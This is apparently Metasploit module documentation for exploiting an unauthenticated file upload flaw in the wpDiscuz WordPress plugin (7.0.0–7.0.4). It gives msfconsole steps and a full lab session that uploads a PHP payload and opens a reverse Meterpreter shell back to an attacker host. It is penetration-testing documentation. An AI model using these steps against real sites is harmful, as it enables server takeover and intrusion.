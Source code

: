 ## Vulnerable Application

This module exploits an arbitrary file upload in the WordPress wpDiscuz plugin
versions >= `v7.0.0` and <= `v7.0.4`. This flaw gave unauthenticated attackers
the ability to upload arbitrary files, including PHP files, and achieve remote
code execution on a vulnerable site’s server.

A vulnerable version of the wpDiscuz plugin can be downloaded from [here](https://downloads.wordpress.org/plugin/wpdiscuz.7.0.4.zip).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`
4. Do: `set BLOGPATH <path>`
5. Do: `set RHOSTS <ip>`
6. Do: `run`
7. You should get a shell.

## Options

### BLOGPATH

Path to the target Wordpress blog.

## Scenarios

### Wordpress `5.7.2` with wpDiscuz `7.0.4` on Ubuntu 18.04

```
msf6 > use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set rhost 192.168.37.135
rhost => 192.168.37.135
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > set blogpath index.php/2021/06/23/hello-world/
blogpath => index.php/2021/06/23/hello-world/
msf6 exploit(unix/webapp/wp_wpdiscuz_unauthenticated_file_upload) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[+] Payload uploaded as ksKFgaD.php
[*] Calling payload...
[*] Sending stage (39282 bytes) to 192.168.37.135
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.135:40444) at 2021-06-23 18:11:41 -0500
[!] This exploit may require manual cleanup of 'ksKFgaD.php' on the target

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
